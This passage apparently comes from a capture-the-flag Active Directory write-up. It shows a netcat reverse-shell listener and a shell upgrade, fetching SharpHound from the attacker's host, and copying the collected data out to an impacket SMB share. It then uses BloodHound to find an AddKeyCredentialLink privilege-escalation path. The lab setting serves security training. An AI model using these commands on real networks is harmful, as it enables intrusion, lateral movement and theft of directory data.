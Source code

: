 ```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49877
^Z
zsh: suspended  nc -lvnp 1234
┌──(root㉿kali)-[~]
└─# stty raw -echo; fg
```
5) Finally double click Enter and that will be it...

### Client AD Pivoting
Since we are inside another machine we need to move laterally to the DC or the real victim machine (10.10.11.175) for this we can abuse of BloodHound utility, to install please refer to [[Bloodhound Installation]] guide.

What we need to perform on the victim machine is to first download the [Sharphound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) utility and upload it to the machine: ^8d2e14
```bash
PS C:\Windows\Temp\Recon> curl 10.10.14.2/SharpHound.exe -o SharpHound.exe
```
The output of the executable will generate two files:
![Description](/assets/img/Pasted image 20230125003006.png)
Starting an SMB server on our machine we'll be able to download such file:
```bash
impacket-smbserver shareFolder $(pwd) -smb2support
```
Then all we need to do is download the file by copying it to the shareFolder Share:
```bash
copy bh.zip \\10.10.14.2\shareFolder\bh.zip
```
Then we need to upload this file into the Bloodhound service:
![Description](/assets/img/Pasted image 20230125004339.png)
After loading we then can use the bloodhound tool to check for potential pivoting and privilege escalations on the machines. One of the first enumeration techniques that we need to perform is to enumerate what we can do with our current compromised user, for that we need to enter its name on the search bar:
![Description](/assets/img/Pasted image 20230125004842.png)
Then we click on "Mark User as Owned":
![Description](/assets/img/Pasted image 20230125004932.png)
Then we click on btables user's icon and select any of the options on the search navigation bar and then select the Domain Admin Group:
![Description](/assets/img/Pasted image 20230125005138.png)
If the user is not generated on the graphic that means, there is no direct path to the Domain Admin:
![Description](/assets/img/Pasted image 20230125005421.png)
So we need to keep looking, now with the option "Shortest Path from Owned Principals"
![Description](/assets/img/Pasted image 20230125005540.png)
And now we get something interesting:
![Description](/assets/img/Pasted image 20230125005648.png)
If we right -click on the "AddKeyCredentialLink" and select the Help menu:
![Description](/assets/img/Pasted image 20230125010007.png)
We can see that in order to escalate privileges we need to abuse of Whiskers executable:
![Description](/assets/img/Pasted image 20230125013418.png)
And also it gives the Info to Abuse of such misconfiguration:
![Description](/assets/img/Pasted image 20230125013507.png)

[^dotnet-compilation]: dotNET Project Compilation with Visual Studio